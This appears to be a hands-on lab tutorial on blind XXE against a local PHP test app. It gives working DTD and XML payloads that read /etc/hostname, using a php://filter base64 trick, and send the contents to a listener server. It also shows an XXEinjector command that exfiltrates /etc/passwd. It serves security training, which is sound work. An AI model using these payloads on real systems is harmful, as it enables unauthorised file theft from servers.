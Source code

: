 ```yaml
---
title: "Blind XXE"
weight: 2
---
```


{{% notice note %}}
Make sure you are on the PHP site (`/php/`) for these exercises.
{{% /notice %}}

If we try the same blind exfil we did in the Java app.

DTD (`/home/vagrant/dtds/hostname.dtd`)

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://127.0.0.1:5000/?x=%file;'>">
%eval;
%exfil;
```

Payload

```xml
<!DOCTYPE root [
  <!ENTITY % xxe SYSTEM "http://127.0.0.1:5000/hostname.dtd"> %xxe;
]>

<root>
  <name>XXE</name>
  <tel>(555) 555-1734</tel>
  <email>email</email>
  <password>pass</password>
</root>
```

It does not work. If we look at the error logs `/var/log/nginx/error.log` we see this:

![](/static/img/php_invalid_uri.png)

To get around this, php has the ability to encode the contents. So in this test we will using the following dtd:

DTD (`/home/vagrant/dtds/php_encode_etc_hostname.dtd`)

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://127.0.0.1:5000/?x=%file;'>">
%eval;
%exfil;
```

Notice how we are now using a php filter to encode the contents of the `/etc/hostname` file in base64. When we submit the payload:

```xml
<!DOCTYPE root [
  <!ENTITY % xxe SYSTEM "http://127.0.0.1:5000/php_encode_etc_hostname.dtd"> %xxe;
]>
<root>
  <name>XXE</name>
  <tel>(555) 555-1734</tel>
  <email>email</email>
  <password>pass</password>
</root>
```

We see the following request to our webserver:

![](/static/img/php_encoded_hostname.png)

We can then base64 decode this and we get the hostname:

![](/static/img/php_decoded_hostname.png)

We can automate this process a bit using XXEinjector.

First we save an example request and include a mark (`XXEINJECTOR`) on where XXEinjector should inject the DTD. (`/home/vagrant/test_files/php_xxeinjector_req.txt`)

```plaintext
POST /php/process.php HTTP/1.1
Host: localhost:8085
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 216
Origin: http://localhost:8085
DNT: 1
Connection: close
Referer: http://localhost:8085/php/

XXEINJECT
<root>
  <name>XXE</name>
  <tel>(555) 555-1734</tel>
  <email>email</email>
  <password>pass</password>
</root>
```

Using this file we tell XXEinjector to grab the contents of the `/etc/passwd` file, base64 encode it and then send it back to our http server listening on port `5005`.

```bash
ruby /home/vagrant/tools/XXEinjector/XXEinjector.rb --httpport=5005 --path=/etc/passwd --host=127.0.0.1 --file=/home/vagrant/test_files/hostname_req.txt --phpfilter --oob=http
```

This shows that we received some content as a response.

![](/static/img/php_xxeinjector.png)

To see the contents we will look in the `Logs` folder under the directory we ran the tool from. As we can see, the contents has been base64 decoded for us automatically.

![](/static/img/php_xxeinjector_results.png)

